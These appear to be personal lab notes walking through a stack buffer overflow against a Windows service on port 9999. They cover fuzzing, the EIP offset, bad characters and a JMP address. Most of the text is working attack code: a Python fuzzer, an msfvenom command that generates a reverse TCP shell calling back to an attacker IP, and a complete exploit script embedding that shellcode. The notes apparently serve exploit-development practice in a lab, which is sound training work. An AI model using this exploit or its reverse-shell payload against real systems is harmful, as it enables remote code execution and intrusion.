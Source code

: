 ## port 9999
interaction with the binary 

![[Pasted image 20210531151217.png]]

# bof

## fuzzing 

crashed at 700 bytes

![[Pasted image 20210531152205.png]]

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.1.108"

port = 9999
timeout = 5
prefix = ""

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      #s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string + "\r\n", "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## offset

EIP: 35724134

offset: 524

![[Pasted image 20210531152457.png]]

![[Pasted image 20210531152552.png]]

## bad chars

ESP: 005FF910

![[Pasted image 20210531153336.png]]

bad chars: `\x00`

## jmp point

311712F3

little endian 

`\xf3\x12\x17\x31`

![[Pasted image 20210531153530.png]]

## exploit 

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00"`

![[Pasted image 20210531154717.png]]

```python
import socket

ip = "10.10.48.192"
port = 9999

prefix = ""
offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16
payload = (
"\xdb\xdc\xd9\x74\x24\xf4\xba\xc7\x11\x57\x7f\x5e\x29\xc9\xb1"
"\x52\x31\x56\x17\x83\xc6\x04\x03\x91\x02\xb5\x8a\xe1\xcd\xbb"
"\x75\x19\x0e\xdc\xfc\xfc\x3f\xdc\x9b\x75\x6f\xec\xe8\xdb\x9c"
"\x87\xbd\xcf\x17\xe5\x69\xe0\x90\x40\x4c\xcf\x21\xf8\xac\x4e"
"\xa2\x03\xe1\xb0\x9b\xcb\xf4\xb1\xdc\x36\xf4\xe3\xb5\x3d\xab"
"\x13\xb1\x08\x70\x98\x89\x9d\xf0\x7d\x59\x9f\xd1\xd0\xd1\xc6"
"\xf1\xd3\x36\x73\xb8\xcb\x5b\xbe\x72\x60\xaf\x34\x85\xa0\xe1"
"\xb5\x2a\x8d\xcd\x47\x32\xca\xea\xb7\x41\x22\x09\x45\x52\xf1"
"\x73\x91\xd7\xe1\xd4\x52\x4f\xcd\xe5\xb7\x16\x86\xea\x7c\x5c"
"\xc0\xee\x83\xb1\x7b\x0a\x0f\x34\xab\x9a\x4b\x13\x6f\xc6\x08"
"\x3a\x36\xa2\xff\x43\x28\x0d\x5f\xe6\x23\xa0\xb4\x9b\x6e\xad"
"\x79\x96\x90\x2d\x16\xa1\xe3\x1f\xb9\x19\x6b\x2c\x32\x84\x6c"
"\x53\x69\x70\xe2\xaa\x92\x81\x2b\x69\xc6\xd1\x43\x58\x67\xba"
"\x93\x65\xb2\x6d\xc3\xc9\x6d\xce\xb3\xa9\xdd\xa6\xd9\x25\x01"
"\xd6\xe2\xef\x2a\x7d\x19\x78\x5f\x93\x25\xa8\x37\x91\x25\x6b"
"\xe1\x1c\xc3\x01\xe1\x48\x5c\xbe\x98\xd0\x16\x5f\x64\xcf\x53"
"\x5f\xee\xfc\xa4\x2e\x07\x88\xb6\xc7\xe7\xc7\xe4\x4e\xf7\xfd"
"\x80\x0d\x6a\x9a\x50\x5b\x97\x35\x07\x0c\x69\x4c\xcd\xa0\xd0"
"\xe6\xf3\x38\x84\xc1\xb7\xe6\x75\xcf\x36\x6a\xc1\xeb\x28\xb2"
"\xca\xb7\x1c\x6a\x9d\x61\xca\xcc\x77\xc0\xa4\x86\x24\x8a\x20"
"\x5e\x07\x0d\x36\x5f\x42\xfb\xd6\xee\x3b\xba\xe9\xdf\xab\x4a"
"\x92\x3d\x4c\xb4\x49\x86\x6c\x57\x5b\xf3\x04\xce\x0e\xbe\x48"
"\xf1\xe5\xfd\x74\x72\x0f\x7e\x83\x6a\x7a\x7b\xcf\x2c\x97\xf1"
"\x40\xd9\x97\xa6\x61\xc8"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```